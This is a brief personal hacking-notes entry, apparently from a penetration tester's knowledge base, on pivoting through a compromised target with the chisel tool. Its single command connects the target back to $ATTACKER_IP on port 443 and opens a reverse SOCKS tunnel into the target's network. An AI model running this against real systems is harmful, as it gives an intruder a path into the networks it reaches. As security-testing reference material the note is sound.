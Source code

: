 # tunneling through chisel - socks Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

# References
- [20221003150604](/zet/20221003150604/README.md) tunneling through chisel - socks
- ~/kb/hacking/commands/pivot-tunnel-through-chisel.md

Tags:
    #assorted #command #hacking #pivot
